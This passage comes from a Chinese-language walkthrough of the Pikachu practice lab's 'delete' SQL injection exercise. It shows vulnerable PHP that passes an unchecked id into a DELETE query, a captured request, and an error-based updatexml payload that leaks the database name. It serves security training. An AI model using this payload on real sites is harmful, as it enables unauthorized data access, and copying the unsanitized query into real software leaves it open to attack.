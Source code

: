 ![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/51.png)

后面爆剩下的略,累了

### "delete"注入

**服务器端核心代码**
```php
// if(array_key_exists('id', $_GET) && is_numeric($_GET['id'])){
//没对传进来的id进行处理,导致DEL注入
if(array_key_exists('id', $_GET)){
    $query="delete from message where id={$_GET['id']}";
    $result=execute($link, $query);
    if(mysqli_affected_rows($link)==1){
        header("location:sqli_del.php");
    }else{
        $html.="<p style='color: red'>删除失败,检查下数据库是不是挂了</p>";
    }
}
```

**漏洞利用**

抓包 `GET /pikachu/vul/sqli/sqli_del.php?id=1 HTTP/1.1`

参数 id 可以尝试 sql 报错注入,构造 payload

`1 or updatexml(1,concat(0x7e,database()),0)`

通过 Burp Suite 中自带的 URL 转换编码来转换替换 ID

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/pikachu/53.png)
